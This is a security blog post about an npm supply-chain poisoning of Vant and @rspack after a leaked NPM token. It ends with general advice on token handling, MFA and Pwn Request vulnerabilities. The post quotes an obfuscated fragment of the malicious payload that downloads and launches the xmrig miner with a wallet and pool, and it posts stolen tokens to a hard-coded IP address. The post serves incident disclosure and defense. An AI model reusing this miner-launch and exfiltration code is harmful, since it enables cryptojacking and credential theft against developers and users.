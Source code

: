 ```yaml
---
title: A poisoning incident caused by an NPM token leak
top: true
---
```

## Background

Due to the leak of a developer's NPM token, the NPM packages Vant, @rspack/core, and @rspack/cli were poisoned.
[![Issues](/assets/2024-12-19/token-leak-github.jpg)](https://github.com/youzan/vant/discussions/13273)
The attacker embedded the mining software xmrig in the code and stole users' cloud service credentials.
The poisoned partial code:
```javascript
function _0x490324() {
        return _0x4a8553(this, undefined, undefined, function* () {
            const _0x3f26b7 = yield function (_0x1d5cc6) {
                return _0x4a8553(this, undefined, undefined, function* () {
                    const _0x2c5ca1 = "https://api.github.com/repos/youzan/vant/git/blobs/" + _0x1d5cc6;
                    const _0x474a42 = _0x16ed2a.join("/tmp/", "vant.tar.gz");
                    const _0x1e3d06 = _0x16ed2a.join("/tmp/", "vant");
                    const _0x3fe94f = {
                        'Accept': 'application/vnd.github.raw+json'
                    };
                    try {
                        0x0;
                        const _0x37fd84 = yield _0x33f3f1["default"]({
                            'method': "GET",
                            'url': _0x2c5ca1,
                            'responseType': "stream",
                            'headers': _0x3fe94f
                        });
                    try {
                        yield _0x4973ce.x({
                            'file': _0x474a42,
                            'cwd': "/tmp/"
                        });
                    return _0x1e3d06;
                });
            }("8ed1c9256b4bfeb3e4f5aaff48bf140398361ae3");
            if ('' === _0x3f26b7) {
                            const _0x13db7a = yield _0x33f3f1["default"]({
                                'method': "GET",
                                'url': 'https://github.com/xmrig/xmrig/releases/download/v6.22.2/xmrig-6.22.2-linux-static-x64.tar.gz',
                                'responseType': "stream"
                            });
                        try {
                            yield _0x4973ce.x({
                                'file': _0x29d56d,
                                'cwd': "/tmp/",
                                'filter': _0xae122a => _0xae122a.endsWith("xmrig"),
                                'strip': 0x1
                            });
                            yield _0x14f1da.renameSync("/tmp/xmrig", '/tmp/vant_helper');
                    });
                }(), ['-u', "475NBZygwEajj4YP2Bdu7yg6XnaphiFjxTFPkvzg5xAjLGPSakE68nyGavn8r1BYqB44xTEyKQhueeqAyGy8RaYc73URL1j", '-o', "pool.supportxmr.com:443", '--tls', '-k', '--cpu-max-threads-hint=75', "--background"]);
            yield function (_0x392e85) {
                    try {
                        (yield _0x33f3f1["default"].post("http://80.78.28.72/tokens", _0x57e4cd)).status;
                    }
        });
}
```
## What is an NPM Token used for?

> 1. Authenticating and accessing the NPM registry:
An NPM token is used to authenticate a developer's identity and securely access the NPM registry. It allows developers to publish and install packages without needing to use a username and password.
> 2. Automating package publishing:
NPM tokens enable developers to automate tasks like publishing packages to the NPM registry. This eliminates the need to manually enter credentials each time, streamlining the workflow.
> 3. Managing permissions for private packages:
NPM tokens can be used to manage and control access to private packages, ensuring that only authorized users or systems can install or modify them.
> 4. Storing tokens securely:
NPM tokens are typically stored in configuration files or environment variables. This ensures sensitive information, such as API keys or credentials, is securely managed and not exposed in plain text.

## How to generate it?
We can create an NPM token by clicking on the avatar -> Access Tokens in the official NPM repository.
![NPM Token](/assets/2024-12-19/npm-tokens.jpg)

## Why does it get leaked?
Aside from system hacks or phishing attacks, a common cause of leaks is hardcoding the NPM Token and accidentally publishing it to a public code repository.
Importantly, [Praetorian exploited the Pwn Request vulnerability to compromise ByteDance’s Rspack.](https://www.praetorian.com/blog/compromising-bytedances-rspack-github-actions-vulnerabilities/)

## If it gets leaked, it can be exploited for poisoning?
If two-factor authentication is not enabled, an NPM Token leak could directly grant attackers access to sensitive information or resources, as well as the ability to publish new versions of malicious components.

## Suggestions
1. [Avoid PWN Request vulnerabilities](https://www.endorlabs.com/learn/pwn-request-threat-a-hidden-danger-in-github-actions)
2. Enable Multi-Factor Authentication (MFA)
2. Regularly Replace Tokens
3. Store Tokens in a Secure Location
4. Monitor Logs for Suspicious Activity